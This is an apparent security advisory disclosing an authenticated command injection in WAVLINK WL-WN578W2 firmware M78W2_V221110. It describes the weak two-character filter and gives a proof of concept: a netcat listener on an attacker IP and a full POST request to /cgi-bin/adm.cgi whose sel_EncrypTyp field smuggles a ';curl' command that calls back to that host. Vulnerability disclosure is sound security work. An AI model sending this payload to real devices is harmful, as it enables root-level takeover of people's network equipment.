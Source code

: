 # WAVLINK WL-WN578W2 M78W2\_V221110 Authenticated Command Injection (Filter Bypass in /cgi-bin/adm.cgi)

PS:



1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  **Authenticated access required**: Attackers need valid login credentials (e.g., username/password) to send requests to `/cgi-bin/adm.cgi`, but weak input filters can still be bypassed for command injection.

## Overview

An authenticated command injection vulnerability (with filter bypass) exists in `/cgi-bin/adm.cgi` of WAVLINK WL-WN578W2 (firmware M78W2\_V221110). After logging in, attackers can exploit the weak input filter (only blocks 2 characters: `|`, `` ` ``) to bypass restrictions, then inject arbitrary system commands via the `sel_EncrypTyp` parameter. This enables execution of `root`-level commands, leading to full device compromise.



![Vulnerability Overview: Authenticated Filter Bypass Flow](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/zh\_cn/index.html](https://www.wavlink.com/zh_cn/index.html)

*   **Product**: WAVLINK WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2\_V221110

*   **Firmware Download**: [https://docs.wavlink.xyz/Firmware\_ch/fm-578w2/](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)

*   **Affected Endpoint**: `/cgi-bin/adm.cgi` (POST method, requires login)

*   **Vulnerable Parameter**: `sel_EncrypTyp`

*   **Vulnerability Type**: Authenticated Command Injection (Filter Bypass)

*   **CVE ID**: Pending

*   **Impact**: After login, execute arbitrary `root` commands (exfiltrate sensitive data, plant backdoors, modify device configurations) via filter bypass.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Analysis

#### 1. Weak Input Filter (Bypassable)

The firmware’s `sub_40A91C` function implements a basic input filter, but only blocks two characters:



*   Blocks `|` (pipe) and `` ` `` (backtick) to prevent simple command injection.

*   Ignores common command separators: `;` (semicolon), `&&` (logical AND), `||` (logical OR), `$(` (command substitution).

    After logging in, attackers can use these allowed separators to bypass the filter and inject malicious commands.




#### 2. Command Injection Vector

After successful login, the `sel_EncrypTyp` parameter (extracted from POST requests via `sub_409184`) is directly concatenated into system commands without additional sanitization. Since the weak filter fails to block key separators, attackers can inject arbitrary commands into `sel_EncrypTyp` (e.g., append `; [malicious command] #`), which are executed with `root` privileges.

![Weak Filter Logic Snippet](./imgs/2.png)
![Weak Filter Logic Snippet](./imgs/3.png)

## Proof of Concept (PoC)

### PoC

#### 1. Prepare for Exploitation



*   Log in to the WAVLINK device via the web interface (e.g., `http://192.168.10.1`), use tools like Burp Suite to capture the login session cookie (e.g., `WAVLINK_SESSIONID=xxxx`).

*   Start a Netcat listener on the attacker machine (IP: 192.168.10.154, Port: 1234) to monitor command execution results:



```
nc -lvnp 1234
```

#### 2. Visit wizard_rep.shtml and Send  POST Request:

Visit wizard_rep.shtml

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: wifi.wavlink.com
Content-Length: 728
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://wifi.wavlink.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://wifi.wavlink.com/wizard_rep.shtml
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=wzdrepeater&select=sel2&sel_Automode=WPA2PSK&sel_EncrypTyp=AES;curl http://192.168.10.154:1234#&wlan_ssid=a827&wlan_bssid=34%3A0a%3A98%3A1a%3A6e%3Aac&wlan_signal=100&wlan_channel=9&wlan_index=2&wlan_wepkey=&wepKeyLen0=&format0=&key0=&pskFormat0=0&pskValue0=&ciphersuite0=&wpa2ciphersuite0=&wepKeyLen1=&length1=&format1=&key1=&pskFormat1=&pskValue1=&ciphersuite1=&wpa2ciphersuite1=&submit-url=%2Fcountdown.htm%3Fsettp%3D5&submit-value=&static_en=0&hostname=&skiplist1=12%3B13%3B14%3B&skiplist2=&skiplist3=&manual_pw=&Model=repeater&rep_type=0&web_pskValue=jm912558&wl_rep_ssid2g=a827_EXT&wl_rep_ssid5g=&wl_rep_ssid5g_2=&ssid2g_input=&Channel=&SECURITYMODE=NONE&wl_key=&wl_rep_ssid2=&wl_rep_ssid5=&INPUTTYPE=0&repeater_mode=0
```




#### 3. Verify Command Execution

The Netcat listener receives a request from the device’s IP (e.g., 192.168.10.1), confirming that the injected `curl` command was executed successfully (filter bypass and authenticated command injection work):



![Step 3: Netcat Captures Execution Result](./imgs/5.png)

